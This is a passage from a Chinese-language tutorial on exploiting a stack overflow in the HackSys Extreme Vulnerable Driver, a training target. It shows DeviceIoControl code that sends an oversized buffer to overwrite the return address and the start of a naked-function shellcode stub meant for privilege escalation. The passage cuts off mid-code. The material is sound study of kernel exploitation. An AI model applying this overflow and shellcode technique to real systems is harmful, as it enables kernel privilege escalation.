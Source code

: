 ```cpp
	char buffer[0x824] ={0};
	memset(buffer,0x41,0x824);
	char buffer2[50] ={0};
	DWORD len = 0;
	BOOL IsOk = DeviceIoControl(hDevice,0x222003,buffer,sizeof(buffer),buffer2,sizeof(buffer2),&len,NULL);
	if (IsOk == FALSE)
	{
		int LastError = GetLastError();
		printf("LastError=%d \n",LastError);
	}

	CloseHandle(hDevice);
	hDevice = NULL;
	system("pause");
	return 0;
}

```
进行通信：

![image](images/yzoLZpv6zMiaUCjeKFbDEQ_iW9VSaOi5lnRhWqV5PM4.png)

通过双击调试进行栈回溯(快捷键kv)，可以发现确实覆盖返回地址了。

现在要做的就是编写我们需要的功能函数，并将功能函数地址放在需要覆盖的地址上面，进行调试。

PS：需要说明的是功能函数写成裸函数，这样容易控制整个栈帧的开辟。

#### 细节3--裸函数
写裸函数的顺序，先写一个啥功能都没有的裸函数，先看看能不能正常的运行，然后再写功能函数，而功能函数编为提权函数即可。

##### 裸函数--1，空白函数
```cpp
#include "stdafx.h"
#include <Windows.h>

#define DEVICE_LINK_NAME    "\\\\.\\HackSysExtremeVulnerableDriver"

void __declspec(naked)shellcode()
{
	_asm
	{
            //保存以前的寄存器状态
		pushad;
		pushfd;

            //还原以前的寄存器状态
		popfd;
```